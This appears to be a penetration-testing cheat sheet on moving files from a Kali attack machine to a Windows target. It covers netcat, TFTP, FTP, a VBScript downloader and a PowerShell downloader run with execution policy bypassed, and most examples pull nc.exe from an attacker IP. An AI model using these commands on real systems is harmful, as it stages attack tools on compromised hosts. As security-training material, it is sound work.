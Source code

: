 
## File Transfer
Below methos can be used to transfer files..

## Transferring Files to Windows	## 
-**Running Webserver on Kali**
```
python -m SimpleHTTPServer 8080	
```
-**Transfer with Netcat**
```
//Kali
nc -lvp 1234 > zeroday.txt
//Win 
nc 192.168.0.114 1234 < zero-day.txt
```
ref: https://blog.ropnop.com/transferring-files-from-kali-to-windows/

-**TFTP** <br />
If target has tftp running, you can easily check it by typing tftp on windows cmd. 
Starting tftp service : 
```
atftpd --daemon --port 69 /tftp 
/etc/init.d/atftpd restart
cd /srv/tftp
cp /var/www/html/nc.exe .
```

```
//transfer nc.exe  
tftp -i 10.11.0.42 GET nc.exe
//PUT
tftp -i 10.11.0.42 PUT test.txt
```

-**FTP**
Setup FTP service by downloading pyftp library 
```
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21 -w
```
You can also automate ftp process by creating ftp.txt
```
echo open 10.11.0.42>ftp.txt
echo anonymous>>ftp.txt
echo password>>ftp.txt
echo binary>>ftp.txt
echo get nc.exe>>ftp.txt 
echo bye>>ftp.txt
ftp -s:ftp.txt
```

cf.	Setting FTP
```sh
groupadd ftpgroup 
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome 
pure-pw mkdb 
cd /etc/pure-ftpd/auth/ 
ln -s ../conf/PureDB 60pdb 
mkdir -p /ftphome 
chown -R ftpuser:ftpgroup /ftphome/ 
/etc/init.d/pure-ftpd restart
```

```
root@kali:~# chmod 755 setup-ftp 
root@kali:~# ./setup-ftp 
Password: 
Enter it again: 
Restarting ftp server
```

-**Creating VBscript**
wget.vbs * VBScript  (eg. in Windows XP, 2003) 
```sh
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject(""WinHttp.WinHttpRequest.5.1"") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject(""WinHttp.WinHttpRequest"") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject(""MSXML2.ServerXMLHTTP"") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject(""Microsoft.XMLHTTP"") >> wget.vbs
echo http.Open ""GET"",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject(""Scripting.FileSystemObject"") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = """" >> wget.vbs
echo strBuffer = """" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
**Usgage**  : ```cscript wget.vbs http://10.11.0.42/wget.exe wget.exe```


-**PowerShell-** (in Windows 7, 2008, and above) 	
wget.ps1
```sh
echo $storageDir = $pwd > wget.ps1 
echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = ""http://10.11.0.42/nc.exe"" >>wget.ps1 
echo $file = ""nc.exe"" >>wget.ps1 
echo $webclient.DownloadFile($url,$file) >>wget.ps1 "	powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive NoProfile -File wget.ps1
```
**Usgage**  : ```powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive NoProfile -File wget.ps1```
